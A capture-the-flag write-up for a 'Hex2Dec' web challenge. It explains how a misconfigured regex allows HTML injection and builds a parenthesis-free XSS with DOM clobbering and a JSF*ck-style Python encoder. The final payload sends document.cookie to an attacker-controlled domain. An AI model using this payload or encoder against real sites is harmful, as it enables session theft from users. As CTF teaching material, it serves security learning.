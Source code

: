 # Hex2Dec
## The Basics
On first load of the site, we were greated by the following screen:
![image](https://github.com/L-T-B/CTFS/assets/62217895/19b49941-4dfb-4f0f-b808-8fe14a57b921)

When submitting a hex value the website was updated to include the value:
![image](https://github.com/L-T-B/CTFS/assets/62217895/29fce33a-0686-4d6b-bf46-832c535c1be2)

Looking under the hood we can see the following javascript:
![image](https://github.com/L-T-B/CTFS/assets/62217895/da31b2c0-3b45-4a35-a3c2-8b99a8afdcba)

On closer inspection we can find that the regex (`^[0-f +-]+$`) is misconfigured and includes all chars between charcode 48 and 102 as well as plus, minus and space.
So our full list of characters is:
```
0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcde +-
```
With this knowledge we can try a simple HTML injection for testing purposes. 
The payload `<a HREF=TEST>` will produce a simple hyperlink to `./TEST`. (Note the attribute isn't closed which results in the NaN of the conversion also being included in the hypertext.)

![image](https://github.com/L-T-B/CTFS/assets/62217895/2e52153a-02ea-44b3-8d08-5c54555788c4)

## Converting this into an XSS
The basic idea of the exploit will be creating some exploit similar to:

`<IMG SRC ONERROR={our javascript code}>`

But we are limited to only a few lowercase chars and can't use any parentheses. But what we can use are javascript template strings which can call a function without using any parentheses.
For example the following code 
```
alert`XSS`
```
is equal to 
`alert("XSS")`

An other crucial step is getting the access to the document variable. A great gadget is here a [dom clobbering attack](https://portswigger.net/web-security/dom-based/dom-clobbering). 
We just give our Image Element an ID such as `AA` and we can access all the Image attributes from our js.
So for example `AA.src` is the equialent of `this.src`. 

But we are interested in the `document` so we will use `AA.ownerDocument`. We can't use a point so we need different a way to access all the fields. 
Luckly there's a handy way to access attributes in Javascript using the brackets. So we can rewrite our exploit and include this:

```
AA[`ownerDocument`]
```

For creating lowercase Strings we can look into JSF*ck. There is already a [great repo](https://github.com/aemkei/jsfuck) explain all the different tricks for getting an characters so I won't go into detail.

For creating any string which only contained ascii letters I wrote this small python script
```py
import re
import string


gadgets = {'false': "[[1==2]+[]][0]", "true": "[[1==1]+[]][0]", "undefined": "[[][[]]+[]][0]",
           "function find() { [native code] }": "[[][[[][[]]+[]][0][4]+[[][[]]+[]][0]["
                                                "5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]"
                                                " +[]][0]", 'Infinity': '[+("1e309")+['
                                                                        ']][0]',
           "function String() { [native code] }": "[``[`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0]["
                                                  "1]+[[][[]]+[]][0][2]] +[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0]["
                                                  "3]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][["
                                                  "]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[["
                                                  "][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+["
                                                  "]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][["
                                                  "]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][6]+[[1==1]+[]][0][1]]+[]]["
                                                  "0]"}

payload = "toLowerCase"
scraps = []

for c in payload:
    if re.match("^[0-f +-]+$", c):
        scraps.append("`" + c + "`")
        continue
    for gadget in gadgets:
        if c in gadget:
            scraps.append(gadgets[gadget] + f"[{gadget.index(c)}]")
            break
    else:
        scraps.append(
            f"{string.ascii_lowercase.index(c) + 10}[[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][["
            f"]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+["
            f"]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[["
            f"1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[["
            f"][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0]["
            f"4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0]["
            f"0]+`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][4]+[[][[[]["
            f"[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][6]+[[1==1]+[]][0][1]]+[]]["
            f"0][14]]`36`")

print("+".join(scraps).replace(" ", ""))
```

With this script we can create a simple XSS:
```js
AA[{enc("ownerDocument")][{enc("location")}]=`JAVASCRIPT:`+{enc("alert")+`\`XSS\``}
```
But this is quite inefficient and needs alot of chars for an exploit. This resulted in the server not accepting the request and returning.

## The Final Exploit

For cutting down the payload size I only encoded `toLowerCase`. With this method it is possible to create string such as `"DOCUMENT"["toLowerCase]()` and create a lowercase String (`"document"`).

So we first define a variable in this case `CC` and set it equal to the value from our python encoder script:
```
CC=[[1==1]+[]][0][0]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][
0][2]]+[]][0][6]+`L`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+32[[[][[[
][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][
0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[
][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[
]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0][
4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[[][[[][[
]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][
5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[1==1]+[]][0][1]]+[]][0][14]]`36`+`e`+[[1==1]+[]][0][1]+`C`+`a`+[[
1==2]+[]][0][3]+`e`
```

Again this is equal to `CC="toLowerCase"`.
With this variable the reset of the exploit is actually quite simple.
We first get the document.location and saving it in `BB` through calling 
```
BB=AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]
```
After that we get the location as a string (useful for getting the `/` and the `.` char) and saving it in the variable `D`:
```
D=[BB+[]][0]
```
And lastly, redirecting the bot to our attacker controlled URL (Note `D[6]` = `/` and `D[18]`=`.`) witht the cookie as the path:
```
AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]=
`HTTPS:`[CC]``+D[6]+D[6]+`ATTACKER`+D[18]+`COM`+D[6]+AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`COOKIE`[CC]``];
```

So putting all the pieces together we get (Note remove the new lines, those are for better readablity):
```html
<IMG SRC ID=AA ONERROR=CC=[[1==1]+[]][0][0]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][
0][2]]+[]][0][6]+`L`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+32[[[][[[
][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][
0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[
][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[
]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0][
4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[[][[[][[
]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][
5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[1==1]+[]][0][1]]+[]][0][14]]`36`+`e`+[[1==1]+[]][0][1]+`C`+`a`+[[
1==2]+[]][0][3]+`e`;BB=AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``];D=[BB+[]][0];AA[`OWNER`[
CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]=`HTTPS:`[CC]``+D[6]+D[6]+`PART`+D[18]+`OTHER`+D[18]+`Baa`+D[
18]+`COM`+D[6]+AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`COOKIE`[CC]``];>
```

## Thank's for reading!
